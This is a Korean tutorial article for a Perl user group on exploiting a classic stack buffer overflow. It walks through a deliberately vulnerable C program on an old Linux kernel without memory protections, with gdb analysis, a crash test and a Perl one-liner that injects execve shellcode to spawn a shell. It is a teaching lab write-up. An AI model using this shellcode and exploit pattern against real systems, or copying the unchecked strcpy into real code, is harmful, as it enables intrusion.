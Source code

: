 Title:    익스플로잇과 펄
Package:  Seoul.pm
Category: perl
Category: Seoul.pm
Author:   h00ray

저자
-----

@h00ray - 시험기간에 공부 안하고 프로그래밍 하는 잉여잉여한 학생, javaapi86 _at_ gmail.com


시작하며
---------

2014년에 들어오면서 리눅스 환경에서의 굵직한 취약점이 발표되었습니다.
[Bash 쉘 쇼크][wiki-shellshock]라던가 [OpenSSL Heartbleed][wiki-heartbleed] 말이죠.
이번 기사에서 다룰 내용은 나열한 취약점과는 거리가 있지만,
리눅스 환경에서의 해킹을 조금이라도 맛 볼겸(?)
메모리 버그의 일종인 [버퍼 오버플로우(BOF, Buffer Overflow)][wiki-bof]를
이용한 해킹 기법을 살펴보겠습니다.


배경 지식
----------

우선 공격할 리눅스 정보를 살펴볼까요?

    #!bash
    $uname -a
    Linux localhost.localdomain 2.2.14-5.0 #1 Tue Mar 7 21:07:39 EST 2000 i686 unknown

후아! 고대의 유물과 같은 버전이군요.
커널의 버전이 매우 낮다는 것을 알 수 있는데 사실 일부로 낮은 버전을 선택했습니다.
현재 최신의 리눅스 커널은 해커들의 공격을 막기위해 많은 보호 기법을 도입하고 있습니다.

이러한 보호 기법으로는
공격프로그램(exploit)이 스택이나 힙에서 실행되지 않도록 하는 [NX-bit][wiki-nx-bit],
메모리상의 공격을 방어하기위해 스택 주소를 무작위로 바꾸는 [ASLR][wiki-aslr],
상위주소를 `\x00` 값으로시작하게하는 즉 NULL처리를 시켜서 공격이 불가능하도록 하는 [ASCII armor][wiki-binary-to-text-encoding]
버퍼와 반환 주소 사이의 임의의 값이 변하면 프로그램을 종료시켜버리는 [canary][wiki-canary] 등이 있습니다.
[canary][wiki-canary]의 경우 해킹에 성공하려면 `eip`를 제어해야하는데,
이를 위해 반환 주소를 덮어써야 합니다.
하지만 canary 보호 기법이 반환 주소를 모니터링하면서, 값이 변하면 프로그램을 종료시켜 버리므로
한번에 공격할수있는 확률이 줄어들어 공격 난이도가 올라갑니다.

이처럼 다양한 보호기법이 적용되면서 예전의 방법으로 공격하기는 힘들지만,
[ROP(Return-oriented Programming)][wiki-rop]와 같은 공격 기법등 여전히 우회하는 방법은 있습니다.
이런 무지막지한 보호 기법을 우회하려는 방법인 만큼 매우 복잡하겠죠?
더 자세한 내용이 궁금하다면 [ROP(Return Oriented Programming) Exploit][home-teamcrak-rop] 문서를 참고하세요.


공격 대상
----------

지금부터 메모리 보호기법을 적용하지않은 (고대의?) 리눅스 커널을 대상으로 간단한 해킹을 해보죠.

다음은 공격할 프로그램의 전체 코드입니다.

    #!cpp
    //vuln.c
    //gcc -o vuln vuln.c
    #include <stdio.h>
    
    int main(int argc, char *argv[])
    {
        char buffer[256];
    
        strcpy(buffer, argv[1]);
        printf("%s\n", buffer);
    
        return 0;
    }

해킹에 성공하기 위해서는 "프로그램 구조를 개발자보다 잘 알아야 한다"라는
말이 있을정도로 프로그램의 구조를 완벽하게 이해하고 있어야합니다.
이제 분석을 하기위해 `gdb`를 실행합니다.

    #!bash
    $gdb vuln
    
    (gdb) disass main
    Dump of assembler code for function main:
    0x80483f8 <main>:	push   %ebp
    0x80483f9 <main+1>:	mov    %esp,%ebp
    0x80483fb <main+3>:	sub    $0x100,%esp
    0x8048401 <main+9>:	mov    0xc(%ebp),%eax
    0x8048404 <main+12>:	add    $0x4,%eax
    0x8048407 <main+15>:	mov    (%eax),%edx
    0x8048409 <main+17>:	push   %edx
    0x804840a <main+18>:	lea    0xffffff00(%ebp),%eax
    0x8048410 <main+24>:	push   %eax
    0x8048411 <main+25>:	call   0x8048340 <strcpy>
    0x8048416 <main+30>:	add    $0x8,%esp
    0x8048419 <main+33>:	lea    0xffffff00(%ebp),%eax
    0x804841f <main+39>:	push   %eax
    0x8048420 <main+40>:	push   $0x8048480
    0x8048425 <main+45>:	call   0x8048330 <printf>
    0x804842a <main+50>:	add    $0x8,%esp
    0x804842d <main+53>:	leave  
    0x804842e <main+54>:	ret    
    0x804842f <main+55>:	nop    
    End of assembler dump.

대충 봐도 현기증을 유발하는 디어셈블된 코드입니다.
유심히 살펴봐야 할 부분은 `strcpy`함수를 호출하는 부분입니다.

    #!plain
    0x8048411 <main+25>:	call   0x8048340 <strcpy>

간단하게 `strcpy` 함수에 대해 좀 더 알아보죠.

    #!cpp
    strcpy(buffer, argv[1]);

앞의 코드는 `argv[1]`의 값을 버퍼에 복사합니다.
요약하면 `eax`에는 `buffer`의 값 256 바이트,
`edx`에는 `argv[1]`의 값이 들어가 있습니다.

어셈블리 코드를 보면 `edx` 값을 넣고, 그 후 `eax(buffer)`를 스택에 넣으므로,
결국 `strcpy(%eax,%edx);`처럼 들어있는 셈입니다.
과연 생각한 것이 맞는지 `gdb`를 사용해서 확인해보겠습니다.

    #!bash
    (gdb) b *main+25
    (gdb) r 1
    Starting program: /home/vuln 1
    
    Breakpoint 1, 0x8048411 in main ()
    (gdb) x/s $edx
    0xbffffca0:	 "1"

우선 `main+25` 지점에 브레이크 포인트를 겁니다.
그 후 인자로 `1`을 주고 실행하면 `edx`에는 예상한대로 `1`이라는 값이 들어가 있습니다.

이제 `0xffffff00`이 뭘 뜻하는지 알아야합니다.
16진수를 10진수로 바꾸면 `256`이라는 값이 나옵니다.
256 바이트를 `buffer`가 사용하고 있으니, `ret` 주소는 `256 + 4`입니다.

자! 이제 펄 스크립트를 사용해 공격해보죠!

    #!perl
    $./vuln `perl -e 'print"A"x260'`
    AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
    Segmentation fault (core dumped)

`ret`값을 덮어쓰면서 공격하니 세그멘테이션 폴트 오류와 함께 강제 종료됩니다.
이제 익스플로잇 코드를 작성하면 끝입니다.

    #!perl
    $./vuln `perl -e 'print "\x90"x125 , "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80","\x90"x110,"\x38\xf9\xff\xbf"'`
    1?h//shh/bin??°
                    ?8
    bash$

와우! 공격에 성공했습니다 ;)

`\x90`은 `nop`이며 그냥 아무 것도 하지않고 다음 명령어로 넘어갑니다.
`\x31\xc0\x50...\x0b\xcd\x80` 부분은 쉘 코드입니다.
간단하게 쉘을 출력해주는 기계어 집합입니다.
`\x38\xf9\xff\xbf` 부분은 스택의 값으로 `gdb`를 통해서 살펴 본 스택 주소입니다.


정리하며
---------

펄은 시스템 관리와 프로그램 작성에 널리 사용되는 언어일 뿐만 아니라
앞에서 보았듯이 목적(지금은 익스플로잇 작성? :)에 쉽게 도달할 수 있게
도와주는 강력한 도구입니다.
이런 펄의 유연함과 강력함이 많은 해커들을 매료시키지 않았을까요?
조금은 에둘러 왔지만, 단지 시스템 관리자와 프로그래머만이
펄을 사용하는 것이 아니란 사실 잊지마세요. ;-)

아! 그리고 읽어주셔서 감사합니다!! :D


[home-teamcrak-rop]:                http://teamcrak.tistory.com/332
[wiki-aslr]:                        http://en.wikipedia.org/wiki/Address_space_layout_randomization
[wiki-binary-to-text-encoding]:     http://en.wikipedia.org/wiki/Binary-to-text_encoding
[wiki-bof]:                         http://en.wikipedia.org/wiki/Buffer_overflow
[wiki-canary]:                      http://en.wikipedia.org/wiki/Buffer_overflow_protection#Canaries
[wiki-heartbleed]:                  http://en.wikipedia.org/wiki/Heartbleed
[wiki-nx-bit]:                      http://en.wikipedia.org/wiki/NX_bit
[wiki-rop]:                         http://en.wikipedia.org/wiki/Return-oriented_programming
[wiki-shellshock]:                  http://en.wikipedia.org/wiki/Shellshock_%28software_bug%29
